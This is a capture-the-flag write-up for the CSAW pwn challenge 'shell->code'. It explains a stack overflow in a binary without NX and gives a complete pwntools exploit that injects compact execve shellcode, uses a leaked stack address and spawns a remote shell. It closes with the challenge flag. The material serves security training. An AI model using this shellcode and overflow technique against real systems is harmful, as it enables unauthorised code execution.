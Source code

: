 ## shell->code 100 (Pwn)

### Solution

The binary doesn't have NX enabled, it first ask for two 15 bytes input on stack, and then ouput the address of node2 on stack (leak), finally ask for your initials and has a 29 bytes buffer overflow.

For these 29 bytes, the return address starts at `buf+11` and we can easily overwrite then return to the shellcode on stack. The problem is that we have only 15 bytes for each buffer, not sufficient for a full `execve()` shellcode, and the leak comes after we input our shellcodes, so I can't chain the buffers together.

Finally I put "/bin/sh" after the return address, since rsp will point to it after return, and making the shellcode fit inside 15 bytes by simply `mov rdi, rsp`.

### Exploit
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

r = remote("pwn.chal.csaw.io", 9005)

sc = """
    mov rdi, rsp
    /* call execve('rsp', 0, 0) */
    push (SYS_execve) /* 0x3b */
    pop rax
    xor esi, esi /* 0 */
    cdq /* rdx=0 */
    syscall
"""
r.sendline(asm(sc))
r.sendline("x")
r.recvuntil("node.next: ")

leak = int(r.recv(14)[2:], 16)
r.sendline(b"a" * 11 + p64(leak + 0x28) + b"/bin/sh\x00")
r.interactive()
```

### Flag

```
flag{NONONODE_YOU_WRECKED_BRO}
```
